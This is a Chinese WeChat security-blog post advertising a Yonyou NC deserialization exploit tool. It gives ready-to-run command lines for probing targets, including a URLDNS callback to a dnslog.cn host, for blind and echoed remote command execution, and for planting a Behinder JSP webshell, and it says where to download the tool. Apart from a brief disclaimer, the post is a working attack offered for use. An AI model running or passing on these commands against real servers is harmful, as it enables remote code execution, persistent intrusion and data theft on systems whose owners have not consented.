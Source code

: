 #  NC反序列化漏洞payload生成

Ghost2097221  [ Web安全工具库 ](javascript:void\(0\);)

**Web安全工具库** ![]()

微信号 websec-tools

功能介绍 将一些好用的红队工具、蓝队工具及自己的学习笔记分享给大家。。。

____

___发表于_

收录于合集

#反序列化 11 个

#序列化 7 个

> 项目作者：Ghost2097221
>
> 项目地址：https://github.com/Ghost2097221/YongyouNC-Unserialize-Tools

  

 **0x01 **前言****

无回显的构造链直接使用的是 CC6执行命令，回显的构造链使用了DefiningClassLoader来绕过默认的黑名单，然后结合
CC6构造链进行任意代码执行。搭配了接口检测功能和URLDNS构造链判断是否存在反序列化。

  

 **0x02 接口检查功能**

  * 

    
    
     java -jar nc6.5.jar http://127.0.0.1 Check

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141244.png)

  

 **0x03 URLDNS构造链探测**

  * 

    
    
     java -jar nc6.5.jar http://127.0.0.1 urldns http://123.dnslog.cn

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141245.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141246.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141248.png)

 **0x04 无回显命令执行**

  * 

    
    
     java -jar yonyouNCTools.jar http://192.168.222.130 blind calc.exe

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141249.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141250.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141252.png)

0x05 回显命令执行

  * 

    
    
    java -jar yonyouNCTools.jar http://192.168.222.130 Execute，通过 Header头传递命令。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141254.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141255.png)

 **0x06 落地 webshell**

  * 

    
    
     java -jar yonyouNCTools.jar http://192.168.222.130 UploadShell "C:\Users\Administrator\Pictures\Camera Roll\1.jsp"

此处如果使用 java1.8运行，固定落地一个天蝎的 webshell，路径为：http://127.0.0.1/eozZEwBb.jsp，如果使用的是
java1.7运行，会重新动态编译，可以落地自定义的 webshell，路径随机。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141258.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141300.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141302.png)

 **0x07 下载地址**

1、通过项目地址下载

2、关注web安全工具库公众号，后台回复：20220910

  

 **0x04 声明**

仅供安全研究与学习之用，若将工具做其他用途，由使用者承担全部法律及连带责任，作者不承担任何法律及连带责任。

  

 **推 荐 阅 读**

  
  
  

加我微信：ivu123ivu，进送书活动群，不定时免费送书

  

《Python深度学习从零开始学》

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141304.png)

>
> 本书以通俗易懂的方式详细介绍深度学习的基础理论及其相关知识，同时提供图像识别、情感分析、迁移学习、人脸识别、图像风格迁移、生成对抗网络等案例引导读者入门深度学习。

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

